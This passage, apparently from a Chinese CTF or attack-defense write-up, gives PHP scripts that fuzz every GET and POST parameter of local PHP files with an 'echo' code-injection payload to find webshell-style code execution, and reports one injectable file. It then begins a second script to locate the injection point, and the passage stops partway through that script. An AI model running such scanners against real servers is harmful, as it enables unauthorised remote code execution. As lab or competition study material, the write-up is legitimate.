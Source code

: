 ```php
            echo "[".round(microtime(true), 2)."] ".strtoupper($method)."\t" . str_pad($func, 17, ' ', STR_PAD_RIGHT) . "\t=>\t" . $v . PHP_EOL;
            $value = 'echo "windowslinuxmac";';
            $cnt++;
            if($method == "post") {
                $post_arr[$func] = $value;
            } else {
                $get_arr[]=$func."=".urlencode($value);
            }
        }
    }
    $http["http"] = [
        'method' => 'POST',
        'header' => 'Content-Type: application/x-www-form-urlencoded; charset=utf-8',
        'content' => http_build_query($post_arr)
    ];
    //var_dump($http["http"]);
    $context = stream_context_create($http);
    $result = file_get_contents("http://localhost/web2/" . $v."?".implode("&", $get_arr), false, $context);
    //echo $result.PHP_EOL;
    if ($result === false) echo "请求失败！\n";
    else {
        if (mb_strpos($result, "windowslinuxmac") !== false) {
            echo "Found!!!\n";
            sleep(10);
        }
    }
}
echo "[cnt] " . $cnt . PHP_EOL;
```

大致思路就是：遍历每个文件，然后通过字符串截取函数截取出来每个文件里面的所有 `$_GET,$_POST` 等可以控制输入的参数。然后再将自己的标志字符串输出，并请求每个文件。如果有返回说明 shell 注入成功。

等待了大概几分钟，突然找到了一个文件 `xk0SzyKwfzw.php` 可以注入，于是又写了脚本单独对这个文件进行注入，以便确定是在文件哪里的注入。

```php
<?php

function matchPattern($pattern, $context) {
    if (mb_substr($pattern, 0, 1) == "" && mb_substr($context, 0, 1) == "")
        return true;
    if ('*' == mb_substr($pattern, 0, 1) && "" != mb_substr($pattern, 1, 1) && "" == mb_substr($context, 0, 1))
        return false;
    if (mb_substr($pattern, 0, 1) == mb_substr($context, 0, 1))
        return matchPattern(mb_substr($pattern, 1), mb_substr($context, 1));
    if (mb_substr($pattern, 0, 1) == "*")
        return matchPattern(mb_substr($pattern, 1), $context) || matchPattern($pattern, mb_substr($context, 1));
    return false;
}

$dir = "/path/to/local/webserver/";
$dirs = scandir($dir);
$cnt = 0;

$file = file_get_contents($dir . "xk0SzyKwfzw.php");
$line = explode("\n", $file);
foreach ($line as $linek => $linev) {
    $linev = trim($linev);
    if (matchPattern('*$_GET[*\'*\'*]*', $linev) || matchPattern('*$_POST[*\'*\'*]*', $linev)) {
        //if(matchPattern('if*(*==*)', trim($line[$linek - 1]))) continue;
```